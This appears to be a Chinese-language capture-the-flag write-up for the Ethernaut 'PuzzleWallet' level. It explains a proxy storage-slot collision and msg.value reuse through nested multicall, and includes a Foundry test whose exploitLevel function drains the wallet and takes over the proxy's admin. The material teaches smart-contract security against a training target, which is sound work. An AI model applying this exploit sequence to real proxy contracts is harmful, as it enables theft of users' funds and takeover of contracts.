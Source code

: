 代理合约是通过封装的 `delegatecall` 实现的，因此 `delegatecall` 的内存布局不一致问题在代理合约中同样存在。从而可以通过修改 `PuzzleProxy` 合约中的 `pendingAdmin` 来修改 `PuzzleWallet` 合约的 `owner`，以及通过修改 `PuzzleWallet` 合约中的 `maxBalance` 来修改 `PuzzleProxy` 合约的 `admin`

在修改 `maxBalance` 前需要将合约代币转出，在 `multicall` 中使用了 `delegatecall`，而 `deposit` 中使用 `msg.value` 获取修改用户的余额，而 `delegatecall` 中 `msg.value` 为原调用数据的值。`multicall` 中限制了直接访问多次 `deposit`，可以通过嵌套 `multicall` 绕过。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity >=0.6.0;
pragma experimental ABIEncoderV2;

import "./utils/BaseTest.sol";
import "src/levels/PuzzleWallet.sol";
import "src/levels/PuzzleWalletFactory.sol";

contract TestPuzzleWallet is BaseTest {
    PuzzleProxy private level;
    PuzzleWallet puzzleWallet;

    constructor() public {
        levelFactory = new PuzzleWalletFactory();
    }

    function setUp() public override {
        super.setUp();
    }

    function testRunLevel() public {
        runLevel();
    }

    function setupLevel() internal override {
        levelAddress = payable(this.createLevelInstance{value: 0.001 ether}(true));
        level = PuzzleProxy(levelAddress);
        puzzleWallet = PuzzleWallet(address(level));

        assertEq(level.admin(), address(levelFactory));
    }

    function exploitLevel() internal override {
        vm.startPrank(player);

        level.proposeNewAdmin(player);

        puzzleWallet.addToWhitelist(player);

        bytes[] memory realCall = new bytes[](1);
        realCall[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);

        bytes[] memory calls = new bytes[](2);
        calls[0] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, realCall);
        calls[1] = calls[0];
        puzzleWallet.multicall{value: 0.001 ether}(calls);

        puzzleWallet.execute(player, 0.002 ether, "");

        puzzleWallet.setMaxBalance(uint256(player));

        assertEq(level.admin(), player);

        vm.stopPrank();
    }
}
```

